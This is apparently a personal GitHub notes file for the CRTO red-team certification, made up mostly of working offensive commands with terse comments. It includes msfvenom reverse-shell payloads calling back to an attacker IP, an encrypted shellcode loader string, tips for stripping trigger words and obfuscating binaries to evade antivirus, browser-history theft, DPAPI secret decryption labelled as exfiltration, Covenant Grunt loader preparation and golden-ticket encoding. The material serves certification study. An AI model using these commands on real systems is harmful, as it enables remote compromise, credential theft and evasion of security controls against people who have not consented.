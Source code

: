 # CRTO_Notes
Collection of things used for CRTO that might be useful


****
Shortcut with powershell
```
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

****

Browser D33ts:
https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Get-BrowserData.ps1
```
(crto_cov) > powershell Get-BrowserData -Browser All

Cannot find path 'C:\Users\p4yl0ad\AppData\Local\Google\Chrome\User Data\Default\History' because it does not exist.


Browser User  DataType Data                                                                               
------- ----  -------- ----                                                                              
IE      p4yl0ad History  https://p4yl0ad.github.io/                                                     
IE      p4yl0ad History  https://p4yl0ad.github.io/                                                              
IE      p4yl0ad History  https://p4yl0ad.github.io/

```



****

Encrypting C# shellcode
```
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=192.168.152.100 LPORT=80 -f csharp --encrypt aes256 --encrypt-key 12345678901234567890123456789012 --encrypt-iv 1234567890123456
```

generate a csharp bytearray with msf

`msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=192.168.152.100 LPORT=80 -f csharp -o reverse-tcp.txt`
`msfvenom --platform windows -p windows/x64/exec CMD='cmd.exe /c start calc.exe' -f powershell`


Utilize Simple Loader to create an encoded b64 string and insert into the loader
`git clone https://github.com/cribdragg3r/Simple-Loader.git`

```C:\Tools>C:\Tools\Simple-Loader\Simple-Loader\bin\Debug\Simple-Loader.exe reverse-tcp.txt
[i] Encrypting Data
[i] Replace the hiphop variable with your new payload:

         String hiphop = "ZxOy1Bks+Vfrlq8wcmyHY8GwwiBZd8NGrGQiKvx15hcv9sQ9apoO6NGbNBxAeS4NLHSz4owcdPgQTTejYJr80Ke4ynoy41yrc5R+D0uqt1ppyxDAeYGATQy7xFbN247gwFee5cPZAFyBzbI6DvOLBFSJiP6+4kv5T7pX3iapVsX7ORmg7Ubfa1M9P/cYNm5qzS9dyHxFde/D578YA6DGYC0/UPzmeDXB11R0MWmPAkRGFftQp+YdurMHce1R4HC9bdCXIO3fdx7Gjy/pDwzh9eMtApiQa1B0Y7ZcEWj0LLHwl0kvAodjTX+M+tQJrsFmA53OcwzDlzlVD6YFXP9uOegIOif+bPSKnCXU0aRaY+U7RRr3QbBCfMtwAm1G6bwHrL6q1jeeWeZN+sWxZbCHnW6mNAOGeV/aG8qod5AqhlIXeIGomvKoPs4bxZ2wNEd7";
```

Remove all strings that are trigger words e.g. comments and "shellcode" "meterpreter" etc etc 

Utilize confuserEX to obfuscate the binary generated by the output 
git clone https://github.com/yck1509/ConfuserEx.git


****
DPAPI
```powershell
$exfil = Get-Content -Path C:\Users\Public\Downloads\oof.txt | ConvertTo-SecureString ; [Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($exfil))))

Import-Module .\FileCryptography.psm1
$key = 'AhXpFs[...REDACTED...]LxlUqc0Y='
Unprotect-File .\exfil.txt.AES AES $key
```
****


**Byte array for combo with shellc loader**
```powershell
$bytes = [System.IO.File]::ReadAllBytes("Grunt.bin");
$bytes -join ","
```

****

Current Users SID no whoami /all:
cmd.exe /c wmic useraccount where name='%username%' get sid
Covenant:
shellcmd wmic useraccount where name='%username%' get sid



SI 0 -> SI >=1
https://github.com/antonioCoco/RunasCs


*****

`[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\IEUser\Desktop\golden.kirbi"))`


```
$Username="Hugo"
$Password="abcdefgh"
$WebProxy = New-Object System.Net.WebProxy("http://webproxy:8080",$true)
$url="http://aaa.bbb.ccc.ddd/rss.xml"

$WebClient = New-Object net.webclient

$WebClient.Proxy=$webproxy
$WebClient.proxy.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
$path="C:\Users\hugo\xml\test.xml"
$WebClient.DownloadFile($url, $path)

```

